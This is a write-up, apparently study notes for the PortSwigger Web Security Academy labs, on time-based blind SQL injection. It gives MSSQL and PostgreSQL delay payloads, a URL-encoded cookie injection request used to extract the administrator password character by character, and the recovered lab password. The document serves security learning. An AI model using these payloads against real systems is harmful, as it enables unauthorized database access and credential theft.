



# Time based SQLi

In the preceding example, suppose that the application now catches database errors and handles them gracefully. Triggering a database error when the injected SQL query is executed no longer causes any difference in the application's response, so the preceding technique of inducing conditional errors will not work.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering time delays conditionally, depending on an injected condition. Because SQL queries are generally processed synchronously by the application, delaying the execution of an SQL query will also delay the HTTP response. This allows us to infer the truth of the injected condition based on the time taken before the HTTP response is received.

The techniques for triggering a time delay are highly specific to the type of database being used. On Microsoft SQL Server, input like the following can be used to test a condition and trigger a delay depending on whether the expression is true:

`'; IF (1=2) WAITFOR DELAY '0:0:10'-- '; IF (1=1) WAITFOR DELAY '0:0:10'--`

The first of these inputs will not trigger a delay, because the condition `1=2` is false. The second input will trigger a delay of 10 seconds, because the condition `1=1` is true.

Using this technique, we can retrieve data in the way already described, by systematically testing one character at a time:

`'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`

## Lab 1

--> I tried different payloads for different languages and then i found the database as `postgresql`

--> Then i used this payload :

`'||(SELECT pg_sleep(10))--`



## Lab 2

--> we need to url encode our payload

```bash
GET / HTTP/1.1
Host: ac561f391f05b39780dc3ba500db005d.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: TrackingId=Z1vLE0dJIDLqmubp'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,§1§,1)='§a§')+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END+FROM+users--; session=9C0MvWcMHNxQpDVq5C7najb7EK9vqN8M
Upgrade-Insecure-Requests: 1
```

--> i got these results



--> after sorting them i got the password !

`y40d3082rrsk1kpvbsds`


